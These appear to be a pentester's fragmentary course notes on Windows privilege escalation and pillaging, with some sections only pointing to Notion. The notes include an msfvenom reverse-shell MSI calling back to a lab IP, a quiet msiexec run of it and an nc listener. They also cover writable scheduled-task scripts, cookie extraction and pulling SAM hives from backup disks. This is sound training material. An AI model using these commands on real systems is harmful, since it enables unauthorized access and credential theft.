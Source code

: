 ## Interacting with Users
SCF on a File Share
Check notion
## Pillaging
Understanding which applications are installed on our compromised system may help us achieve our goal during a pentest
The idea is to check for applications that can be exploited, the following are examples of applications that if you encounter you can check notion
```
mRemoteNG
```
```
Cookie Extraction from Firefox
```
```
Cookie Extraction from Chromium-based Browsers
```
```
Clipboard
```
```
Attacking Backup Servers
restic
```

## Miscellaneous Techniques
### Living Off The Land Binaries and Scripts (LOLBAS)
```
https://lolbas-project.github.io/#
```
### Encoding File with Certutil
```
C:\htb> certutil -encode file1 encodedfile
```
### Decoding File with Certutil
```
C:\htb> certutil -decode encodedfile file2
```
#### Summary
A binary such as rundll32.exe can be used to execute a DLL file. We could use this to obtain a reverse shell by executing a .DLL file that we either download onto the remote host or host ourselves on an SMB share.
### Always Install Elevated
Enumerating Always Install Elevated Settings
```
PS C:\htb> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```
```
PS C:\htb> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
Our enumeration shows us that the AlwaysInstallElevated key exists, so the policy is indeed enabled on the target system
#### Generating MSI Package
```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi
```
#### Executing MSI Package
```
C:\htb> msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```
#### Catching Shell
```
nc -lvnp 9443
```
### CVE-2019-1388
This vulnerability can be exploited easily using an old Microsoft-signed executable (hhupd.exe) that contains a certificate with the SpcSpAgencyInfo field populated with a hyperlink.
```
Look for hhupd.exe
```
Check notion
### Scheduled Tasks
Enumerating Scheduled Tasks
#### cmd
```
C:\htb>  schtasks /query /fo LIST /v
```
#### Enumerating Scheduled Tasks with PowerShell
```
PS C:\htb> Get-ScheduledTask | select TaskName,State
```
It is not uncommon for system administrators to go against security practices and perform actions such as provide read or write access to a folder usually reserved only for administrators. We (though rarely) may encounter a scheduled task that runs as an administrator configured with weak file/folder permissions for any number of reasons. In this case, we may be able to edit the task itself to perform an unintended action or modify a script run by the scheduled task
### Checking Permissions on C:\Scripts Directory
```
C:\htb> .\accesschk64.exe /accepteula -s -d C:\Scripts\
```
We notice various scripts in this directory, such as db-backup.ps1, mailbox-backup.ps1, etc., which are also all writeable by the BUILTIN\USERS group. At this point, we can append a snippet of code to one of these files with the assumption that at least one of these runs on a daily, if not more frequent, basis.
### Checking Local User Description Field
```
PS C:\htb> Get-LocalUser
```
### Enumerating Computer Description Field with Get-WmiObject Cmdlet
```
PS C:\htb> Get-WmiObject -Class Win32_OperatingSystem | select Description
```
### Mount VHDX/VMDK
The tool Snaffler can help us perform thorough enumeration that we could not otherwise perform by hand. The tool searches for many interesting file types, such as files containing the phrase "pass" in the file name, KeePass database files, SSH keys, web.config files, and many more
Three specific file types of interest are .vhd, .vhdx, and .vmdk files. These are Virtual Hard Disk, Virtual Hard Disk v2 (both used by Hyper-V), and Virtual Machine Disk (used by VMware). Let's assume that we land on a web server and have had no luck escalating privileges, so we resort to hunting through network shares. We come across a backups share hosting a variety of .VMDK and .VHDX files whose filenames match hostnames in the network.
#### Linux
##### Mount VMDK on Linux
```
guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk
```
##### Mount VHD/VHDX on Linux
```
guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1
```
#### Windows
##### Mount VHD/VHDX
we can right-click on the file and choose Mount, or use the Disk Management utility to mount a .vhd or .vhdx file. If preferred, we can use the Mount-VHD PowerShell cmdlet. Regardless of the method, once we do this, the virtual hard disk will appear as a lettered drive that we can then browse.
##### Mount VMDK 
we can right-click and choose Map Virtual Disk from the menu. Next, we will be prompted to select a drive letter. If all goes to plan, we can browse the target operating system's files and directories. If this fails, we can use VMWare Workstation File --> Map Virtual Disks to map the disk onto our base system. 
We could also add the .vmdk file onto our attack VM as an additional virtual hard drive, then access it as a lettered drive. We can even use 7-Zip to extract data from a .vmdk file. This guide illustrates many methods for gaining access to the files on a .vmdk file.

Why do we care about a virtual hard drive (especially Windows)? If we can locate a backup of a live machine, we can access the C:\Windows\System32\Config directory and pull down the SAM, SECURITY and SYSTEM registry hives. We can then use a tool such as secretsdump to extract the password hashes for local users.